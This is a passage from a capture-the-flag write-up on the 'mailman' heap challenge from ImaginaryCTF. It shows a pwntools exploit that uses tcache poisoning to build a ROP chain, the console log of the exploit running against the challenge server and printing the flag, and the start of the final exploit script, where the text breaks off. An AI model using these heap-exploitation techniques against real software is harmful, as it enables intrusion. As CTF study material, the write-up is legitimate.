```py
# tcache poisoning
add(5, 0x130, b"T"*0x100 + pwn.p64(0) + pwn.p64(0x111) + pwn.p64(((stack - 0x28) ^ ((heap + 0x2b90) >> 12))))
add(2, 0x100, b"TT") # dumb

print(rop.dump())
add(3, 0x100, pwn.p64(0x1337)*5 + rop.chain())

io.interactive()
```

Which gives:
```
$ python3 exploit.py REMOTE HOST=mailman.chal.imaginaryctf.org PORT=1337
[*] '/home/nasm/Documents/pwn/ImaginaryCTF/mailman/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/nasm/Documents/pwn/ImaginaryCTF/mailman/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/nasm/Documents/pwn/ImaginaryCTF/mailman/ld-linux-x86-64.so.2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to mailman.chal.imaginaryctf.org on port 1337: Done
[*] heap @ 0x5611bbf93000
[+] libc: 0x7f6b49fec000
[+] environ: 0x7f6b4a2932d8
[+] stdout: 0x7f6b4a206780
[*] stack: 0x7fff28533ba8
[*] Loaded 218 cached gadgets for '/home/nasm/Documents/pwn/ImaginaryCTF/mailman/libc.so.6'
[*] Switching to interactive mode
ictf{i_guess_the_post_office_couldnt_hide_the_heapnote_underneath_912b123f}
```

# Annexes

Final exploit:
```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn

BINARY = "vuln"
LIBC = "/home/alexis/Documents/pwn/ImaginaryCTF/mailman/libc.so.6"
LD = "/home/alexis/Documents/pwn/ImaginaryCTF/mailman/ld-linux-x86-64.so.2"

# Set up pwntools for the correct architecture
```